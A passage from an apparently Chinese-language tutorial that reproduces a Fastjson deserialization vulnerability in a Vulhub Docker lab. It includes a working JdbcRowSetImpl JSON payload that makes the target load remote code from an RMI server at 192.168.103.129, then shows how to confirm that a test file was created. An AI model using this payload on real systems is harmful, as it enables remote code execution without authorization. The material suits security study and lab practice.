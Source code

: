 ```
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.103.129:9999/TouchFile",
        "autoCommit":true
    }
}
```  
  
主要是看这两个地方，圈起来的是主要payload，然后看是否成功执行了，就看返回包中是否回显500关键字。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXfOkCE3VZyH4NtVsdY8by4PZhVJzOZ5kQjf9YpzSRmhWoXyyxCRx3fj2a8FplLOqtVqHO3bKLgibg/640?wx_fmt=png&from=appmsg "")  
  
然后可以看到rmi服务的监听和开启的http服务都有回应了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXfOkCE3VZyH4NtVsdY8by4TQRib2RUic0ThTE9via6Qr2Y7x9Jqo4LGMQeubTnnfYoEzfKKxIcnib0gw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXfOkCE3VZyH4NtVsdY8by4YUaQ29yfRzbBrZk5icZ0Sia1d2SFYsPpBOW5xbofpEwShUJRmvAnaNDQ/640?wx_fmt=png&from=appmsg "")  
  
五、我们开始的TouchFile.java这个脚本文件，我们是让他执行touch /tmp/successFrank 目录文件，我们来看看是否执行成功了。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXfOkCE3VZyH4NtVsdY8by4MiaoU5kfJysPPwk8icjuz7LdAgW6GOr6BBkfr2YqBe0x2R4OD2m73ESA/640?wx_fmt=png&from=appmsg "")  
  
详细步骤如下：  
```
1、docker ps  //找到CONTAINER ID
2、docker exec -it CONTAINER ID /bin/bash   //就可以进入CONTAINER ID当前目录下了
3、cd /tmp  
4、ls   //就可以看到创建的successFrank文件了
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWXfOkCE3VZyH4NtVsdY8by4XP91vvCjTB4Dib30cpQ2fjeJyYNiaV0tMfV24BqiagQGSlBra4krUtYwQ/640?wx_fmt=png&from=appmsg "")  
  
目前，我们就把漏洞复现成功了！！！  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x5 总结**  
  
  
JDK1.8安装详细教程：  
https://blog.csdn.net/m0_54899775/article/details/122420533  
  
安装vulnhub详细教程：  
https://blog.csdn.net/m0_54899775/article/details/122463532  
  
哔哩哔哩视频讲解：【fastjson反序列化漏洞演示加详细讲解加原理】   
https://www.bilibili.com/video/BV1Ab4y1d7w1/?share_source=copy_web&vd_source=268f8d699ac32cf11e9bdc248399c5bd  
  
参考文章：  
  
https://github.com/bit4woo/code2sec.com  
  
https://xz.aliyun.com/t/14872  
  
burpsuit插件：  
  